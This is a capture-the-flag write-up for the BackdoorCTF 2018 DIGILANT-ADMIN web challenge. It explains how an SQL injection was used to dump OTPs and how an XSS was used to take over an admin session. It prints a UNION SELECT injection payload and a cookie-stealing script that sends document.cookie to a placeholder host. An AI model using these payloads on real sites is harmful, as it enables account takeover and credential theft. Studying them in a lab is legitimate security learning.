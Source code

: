 ```yaml
---
title: BackdoorCTF 2018 - DIGILANT-ADMIN
author: Crisis
categories:
  - hacking
---
```


Here's my solution for the DIGILANT-ADMIN challenge of the *2018 BackdoorCTF*. I'm not sure wether I got the flag the intended way since there has been quite a few technical problems during the event, but here's how I did it anyway.

First of all, this was the challenge's description:
![](https://i.imgur.com/vemjbMy.png)

Once on the website, you could create an account by providing an email address, and then log in with the OTP sent to that email address.
![](https://i.imgur.com/Bch0ZOm.png)

Once logged in, the main thing you could do was to post a new message:
![](https://i.imgur.com/qY08mZY.png)
And report messages to the admin :
![](https://i.imgur.com/KOyK8oe.png)

The other interesting thing was the "Giveme flag" page, which stated:

```
No admin No flag
```

So my first idea was of course to try and find an exploitable XSS to log in as admin. I tried a few things, but it wasn't executing on the URL where you could see your post:
```
http://51.15.73.163/DIGILANT-ADMIN/posts.php?id=000af61e777d34ab
```
So I tried a few other things, and I found that the id parameter was vulnerable to an SQL injection and to an XSS injection:
![](https://i.imgur.com/2pIbQat.png)

I tried to steal the admin cookie with that XSS, but the bot wasn't clicking on my link. And the results of the SQL injections were also confusing at first since I couldn't read them. After testing a few things, I found out why - the results were decrypted as base64 before being returned. So the easy fix was to base64 encode it, as such:
![](https://i.imgur.com/zXCRAmp.png)

Since I wasn't successfull with the XSS, I decided to try exploiting the SQLi to get the admin pass and OTP. With the help of SQLMap, I dumped the content of the database:
![](https://i.imgur.com/87bPuIJ.png)
etc.
![](https://i.imgur.com/TlhkZJE.png)
etc.

And in theory I could have been done since I could have just logged in as "admin" and got the OTP directly from the database:
```sql
http://51.15.73.163/DIGILANT-ADMIN/posts.php?id=-1' UNION ALL SELECT to_base64(otp) FROM OTP WHERE umail='2d3686a381fa880ddab@gmail.com' -- -
```
But the problem was that I had no way to know which user was the admin. As you can see on the screenshot above there was many "random hash" accounts, and none of the accounts with the name "admin" in them was the real one. After trying a few of them, I decided to find another way rather than stupidly trying them all.
In the dump of the database, I noticed that many people had reported URLs like this:
![](https://i.imgur.com/UQigMAO.png)

That gave me a big hint. I had already noticed that HTML/JS was being executed on the homepage, and upon closer inspection of the code it turned out that there was a way to exploit an XSS in your posts:
![](https://i.imgur.com/m3cyYe3.png)

You just had to access your post's URL with `&full=true` appended to it:
![](https://i.imgur.com/L8RjsKN.png)

I made a new one with the standard
```html
<script>location.replace('yoursite.com?cookie='+document.cookie)</script>
```
injection, and I got the admin's PHPSESSID on requestbin:
![](https://i.imgur.com/6kwpoqS.png)

I modified my cookie, but got kicked out:
```
Login attempted from another IP address. Login again
```
Which was a problem since I still had no idea what the admin username was. But it turned out that if you tried logging in again with any account, you could briefly see the admin's name:
![](https://i.imgur.com/gFq9PJw.png)

I'm not sure wether this was intended or not. All I had to do then was to login with that username and get the OTP from the database, as shown before. But that wasn't even necessary, because if you entered a wrong OTP, the website would just show you the right one (here I just put "12" in):
![](https://i.imgur.com/sBZPX8Z.png)

Not sure if that was a bug or not either, but you could then just log in like that. And get the flag from the "Giveme flag" page :
![](https://i.imgur.com/1jyENgf.png)
